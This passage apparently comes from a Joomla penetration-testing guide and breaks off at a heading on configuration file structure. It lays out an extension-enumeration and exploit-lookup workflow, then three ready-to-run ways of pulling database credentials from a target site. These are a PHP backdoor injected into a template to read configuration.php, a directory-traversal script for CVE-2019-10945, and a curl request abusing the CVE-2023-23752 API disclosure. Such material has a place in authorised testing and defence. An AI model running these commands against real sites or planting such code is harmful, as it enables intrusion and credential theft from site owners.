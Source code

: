 **Vulnerability Research Workflow:**
```bash
# 1. Enumerate installed extensions
droopescan scan joomla --url http://target.com --enumerate a

# 2. Research component versions
for component in $(cat discovered_components.txt); do
    echo "=== $component ==="
    searchsploit "$component"
    curl -s "https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=$component"
done

# 3. Cross-reference with exploit databases
# - Exploit-DB
# - PacketStorm  
# - GitHub security advisories
# - Joomla Security Center
```

---

## Database Exploitation

### Configuration File Analysis

#### Extracting Database Credentials

**Method 1: Direct File Access (Via Template Injection)**
```php
# Inject into template file
<?php
if (isset($_GET['config'])) {
    readfile('../../../configuration.php');
    exit();
}
?>

# Access: http://target.com/templates/protostar/error.php?config=1
```

**Method 2: Directory Traversal (CVE-2019-10945)**
```bash
# Use directory traversal to read config
python3 joomla_dir_trav.py --url "http://target.com/administrator/" \
  --username admin --password admin --dir / | grep -A 20 "configuration.php"
```

**Method 3: Information Disclosure (CVE-2023-23752)**
```bash
# Extract via API (Joomla 4.x)
curl -s "http://target.com/api/index.php/v1/config/application?public=true" | jq '.data.attributes'
```

#### Configuration File Structure Analysis
